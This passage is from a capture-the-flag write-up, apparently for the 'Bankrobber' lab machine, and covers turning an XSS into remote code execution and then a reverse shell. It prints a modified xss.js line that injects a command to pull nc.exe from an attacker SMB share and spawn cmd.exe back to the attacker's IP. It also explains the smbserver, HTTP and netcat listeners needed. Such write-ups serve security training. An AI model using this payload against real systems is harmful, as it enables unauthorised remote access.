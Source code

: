 Here is the output of the script:

![exploit](./bankrobber/exploit.png)

And the output of the Python3 HTTP server to serve the `xss.js` payload:

![xss_rce](./bankrobber/xss_rce.png)

And lastly, the output of a `tcpdump` to catch the remote pings from `xss.js`:

![ping](./bankrobber/ping.png)

That's RCE! Now to get an actual reverse shell, `smbserver` by `impacket` (https://github.com/SecureAuthCorp/impacket) can be used to host `nc.exe` for the remote client to _pull and execute all in one command_. Locating `nc.exe` on Kali:

- This should be at `/usr/share/windows-resources/binaries/nc.exe`

```bash
find / -iname nc.exe 2>/dev/null
```

Next, the `xss.js` payload needs to change. The last line of `xss.js` now becomes:

- `BUBBA` is the name of the SMB share with `smbserver`

```javascript
xhr.send('cmd=dir|\\\\10.10.14.20\\BUBBA\\nc.exe -e cmd.exe 10.10.14.20 6969');
```

Next copy over `nc.exe`, serve it with `smbserver`, and then trigger the XSS with the Python3 script:

- **NOTE:** There should be 3 listeners at this point _before_ running the Python3 script: 
  	1. A local netcat
   	2. `smbserver` SMB share
   	3. Python3's HTTP server
